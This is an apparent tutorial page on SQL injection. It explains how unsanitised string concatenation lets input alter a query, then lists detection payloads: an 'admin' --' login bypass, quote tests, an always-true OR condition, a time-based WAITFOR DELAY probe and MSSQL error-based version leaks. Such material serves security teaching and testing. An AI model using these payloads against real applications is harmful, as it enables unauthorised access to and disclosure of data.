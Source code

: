 # SQL Injection

**SQL Injection (SQLi)** is a web security vulnerability that allows an attacker to interfere with the queries that an  application makes to its database. It enables attackers to view, modify, or delete data they are not normally able to access.

## How It Works

SQL injection occurs when an application builds SQL queries by  concatenating strings that include user-supplied data. When this input  isn't properly sanitized, attackers can modify the query's logic. For  example, in the query:

```sql
SELECT * FROM users WHERE username = 'input' AND password = 'input'
```

An attacker might input: `admin' --`, changing the query to:

```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = 'input'
```

This commenting out the password check entirely.

## Detection

### Manual Testing

#### Quote Tests

Tests for SQL parsing errors by injecting different types of quotes:

```sql
# Quote tests - Testing for SQL parsing errors
username'   # Single quote - Most common SQL injection test
username"   # Double quote - Used in some database types
username`   # Backtick - Mainly for MySQL identifier injection
```

#### Logic Tests

Verifies query manipulation possibilities through boolean logic:

```sql
username' OR '1'='1   # Always true condition, often bypasses authentication
username' AND '1'='2  # Always false condition, verifies boolean responses
username' WAITFOR DELAY '0:0:5'--  # Time-based test, checks for blind injection
```

#### Error Tests

Forces database errors to gather information about the backend:

```sql
username' AND 1=convert(int,@@version)--       # Forces type conversion error, reveals MSSQL version
username' AND 1=cast((SELECT @@version) as int)--  # Alternative version check for MSSQL
```
